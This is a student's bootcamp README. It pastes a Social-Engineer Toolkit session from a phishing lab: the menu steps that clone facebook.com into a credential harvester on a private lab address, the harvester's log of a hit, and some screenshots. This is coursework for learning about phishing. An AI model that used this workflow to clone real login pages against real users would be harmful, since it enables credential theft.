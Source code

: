 # santanderbootcamp
Envio de atividades do bootcamp da santnader

Segue o que esteve no meu terminal durante a atividade de phishing

01011001011011110111010100100000011100
         10011001010110000101101100011011000111
         10010010000001101000011000010111011001
         10010100100000011101000110111100100000
         01101101011101010110001101101000001000
         00011101000110100101101101011001010010
         00000110111101101110001000000111100101
         10111101110101011100100010000001101000
         01100001011011100110010001110011001000
         00001110100010110100101001001000000101
         01000110100001100001011011100110101101
         11001100100000011001100110111101110010
         00100000011101010111001101101001011011
         10011001110010000001110100011010000110
         01010010000001010011011011110110001101
         10100101100001011011000010110101000101
         01101110011001110110100101101110011001
         01011001010111001000100000010101000110
         11110110111101101100011010110110100101
         11010000100000001010100110100001110101
         011001110111001100101010

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.

The Java Applet Attack method will spoof a Java Certificate and deliver a Metasploit-based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.

The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.

The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.

The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.

The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if it's too slow/fast.

The Multi-Attack method will add a combination of attacks through the web attack menu. For example, you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.

The HTA Attack method will allow you to clone a site and perform PowerShell injection through HTA files which can be used for Windows-based PowerShell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesn’t know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perspective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.221.128]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php                                                      
[*] This could take a little bit...                                                                                

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below:                                                      
192.168.221.128 - - [15/Jan/2025 22:31:14] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: -----------------------------149943779113474047643807462260     


![image](https://github.com/user-attachments/assets/fd742d8c-a74a-4159-8f51-1828860be584)
![image](https://github.com/user-attachments/assets/535e800b-4859-4ade-9c78-b2227b198b9a)
![image](https://github.com/user-attachments/assets/20380342-c864-4f05-9692-8eae4876eb55)
![image](https://github.com/user-attachments/assets/a3315a78-ab15-4ba0-bfac-966e738857af)





